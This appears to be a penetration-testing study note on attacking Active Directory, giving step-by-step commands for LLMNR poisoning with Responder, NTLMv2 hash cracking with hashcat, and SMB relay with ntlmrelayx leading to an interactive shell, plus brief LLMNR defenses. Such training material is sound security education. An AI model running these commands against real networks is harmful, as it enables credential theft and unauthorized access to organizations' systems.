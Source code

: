 # ACTIVE DIRECTORY

Directory services developed by Microsoft to manage windows domain networks.
Stores information related objects, such as Computers, Users, Printers etc. (Acts like a phonebook for Windows).
Authenticates using kerberos - Non-windows devices such as Linux machines, firewalls etc. can also authenticate to Active Directory via RADIUS or LDAP.


**ATTACKING ACTIVE DIRECTORY**

First we need to find our way into the network through abusing features of windows.

**1.LLMNR POISONING**

Link Local Multicast & Name Resolution- used to Identify hosts when DNS fails to do so.
Previously known as NBT_NS.
Key flaw is that the services utilize a user's username and NTLMV2 hash when appropriately responded to.
We will use a tool called `Responder`

`python Responder.py -I tun0 -rdw -V`

Run the tool and wait for connection :

STEPS:
- Run Responder
- An Event occurs
- Get some hashes
- Crack the hashes 

**Capturing NTLMV2 Hashes with Responder**

 `responder -I eth0 -rdwv`
 
 **Password cracking with Hashcats**
 
 copy and paste the hashes collected:
 
 `gedit hashes.txt`
 
 paste the hashes and save
 
 `hashcat -m 5600 hashes.txt rockyou.txt --force`
 
 **LLMNR Poisoning defenses**
 
 Best defense is to disable LLMNR & NBT-NS.
 If you have to use or cannot disable LLMNR/NBT-NS;
 
 - Enable Network Access Control
 - Use Strong User Password

**2.SMB RELAY ATTACKS**

SMB signing is a packet level protocol.
Instead of cracking hashes gathered with Responder, we can instead relay these hashes to specific machines and potentially gain access.

Requirements:

- SMB signing must be disabled on the target.
- Relayed user credentials must be admin on machine.

Run Responder:

`gedit Responder.conf` - Turn off SMB & HTTP

`python Responder.py -I tun0 -rdw -v`

Set up your relay:

`python ntlmrelayx.py -tf targets.txt -smb2support`

NTLM relay x takes the relay, it passes it to a target file specified.

**Discovery Hosts with SMB Signing Disabled**

Using nmap to do a quick check:

`nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24`

paste all the targets or the one doesn't require SMB signing

`gedit targets.txt`

**SMB Relay Attack Demonstration**
`cat targets.txt`

Now set up the responder

`gedit /etc/responder/Responder.conf`

turn on both SMB & HTTP save the .conf file.

`responder -I eth0 -rdwv`

Now set-up the relay

`ntlmrelayx.py -tf targets.txt -smb2support`

Now wait for a connection to happen.
Copy and crack the hashes after dumping them.
We might be able to move laterally/vertically with the hashes.
Which will occur only if we have multiple admins.

**SMB Relay Attack Demonstration - II**

Making this shell Interactive

`responder -I eth0 -rdwv`

Now load up ntlmrelay

`ntlmrelayx.py -tf targets.txt -smb2support -i`

Open a new tab;

`nc 127.0.0.1 11000`


